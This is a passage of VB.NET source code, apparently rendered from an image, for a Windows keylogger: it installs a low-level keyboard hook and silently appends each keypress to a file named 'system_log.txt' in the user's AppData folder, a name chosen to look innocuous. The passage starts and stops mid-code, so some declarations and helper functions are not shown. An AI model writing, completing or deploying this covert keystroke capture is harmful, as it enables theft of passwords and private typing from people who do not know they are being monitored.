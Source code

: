 ```vb.net
    Private Declare Function UnhookWindowsHookEx Lib "user32" (
        ByVal hhk As IntPtr) As Boolean

    ' Windows API function to call the next hook in the chain
    Private Declare Function CallNextHookEx Lib "user32" (
        ByVal hhk As IntPtr,
        ByVal nCode As Integer,
        ByVal wParam As IntPtr,
        ByVal lParam As IntPtr) As IntPtr

    ' Windows API function to get the current module handle
    Private Declare Function GetModuleHandle Lib "kernel32" Alias "GetModuleHandleA" (
        ByVal lpModuleName As String) As IntPtr

    Private Const WH_KEYBOARD_LL As Integer = 13
    Private Const WM_KEYDOWN As Integer = &H100

    Private Shared HookID As IntPtr = IntPtr.Zero
    Private Shared ReadOnly LogFilePath As String = Path.Combine(
        Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData),
        "system_log.txt")

    Private Delegate Function LowLevelKeyboardProc(
        ByVal nCode As Integer,
        ByVal wParam As IntPtr,
        ByVal lParam As IntPtr) As IntPtr

    Private Shared HookProc As LowLevelKeyboardProc = AddressOf HookCallback

    Public Shared Sub Main()
        HookID = SetHook(HookProc)
        If HookID = IntPtr.Zero Then
            MessageBox.Show("Failed to install hook!")
            Return
        End If

        Application.Run()
        UnhookWindowsHookEx(HookID)
    End Sub

    Private Shared Function SetHook(ByVal proc As LowLevelKeyboardProc) As IntPtr
        Using curProcess As Process = Process.GetCurrentProcess()
            Using curModule As ProcessModule = curProcess.MainModule
                Return SetWindowsHookEx(WH_KEYBOARD_LL, proc,
                    GetModuleHandle(curModule.ModuleName), 0)
            End Using
        End Using
    End Function

    Private Shared Function HookCallback(
        ByVal nCode As Integer,
        ByVal wParam As IntPtr,
        ByVal lParam As IntPtr) As IntPtr

        If nCode >= 0 AndAlso wParam = WM_KEYDOWN Then
            Dim vkCode As Integer = Marshal.ReadInt32(lParam)

            Try
                Using writer As New StreamWriter(LogFilePath, True)
                    writer.Write(ConvertKeyCodeToChar(vkCode))
                End Using
            Catch
                ' Silent fail on write error
```
